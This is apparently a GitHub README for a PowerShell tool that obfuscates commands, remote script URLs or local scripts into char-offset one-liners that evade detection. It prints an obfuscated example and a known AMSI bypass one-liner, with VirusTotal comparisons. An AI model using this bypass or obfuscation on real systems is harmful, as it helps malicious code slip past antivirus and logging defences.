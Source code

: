 # Invoke-Mathfuscation

![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscation_header.png)

A quick command line utility that converts individual characters of an input string into char values. It then takes a user-supplied number value and uses it to ofuscate the individual char values. Lastly, it outputs a simple obfuscated one-liner using random polymorphic variables which will execute the original string. Currently supports:

* Remote URL (ie: http://example.com/dir/remote.ps1)
* Local File (ie: C:\tmp\local.ps1)
* PowerShell Command (ie: Write-Host "Hello world!")
* **Update:** Supports positive/negative numbers

When prompted, specify a command to invoke, remote URL or full local path to a .ps1 file, then supply the number offset which will be added or subtracted to the char values. 

Example: 
```Write-Host "Hello world!"``` using 600 as an offset:
```powershell
@(687,714,705,716,701,645,672,711,715,716,632,634,672,701,708,708,711,632,719,711,714,708,700,633,634)|%{$Pbdli=$Pbdli+[char]($_-600)};.(g`cm i?[?x])($Pbdli)
```

## VirusTotal Detections

Example: AMSI Bypass using Using Matt Graebers Reflection method:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Unmathfuscated: `3f5dcf5b5cd4eb727ed4cd6cea6bbbaa8c1c5272b60c0415084981ec30e7a66b`
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_1.png)

Mathfuscated: `5db31b84c99d9a977e629f09b4e1f7cbd525b1167959457f6b59220e4e2eb9a5`
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_2.png)



*Disclaimer: I'm not a programmer*

Use at your own risk! For educational purposes only. 


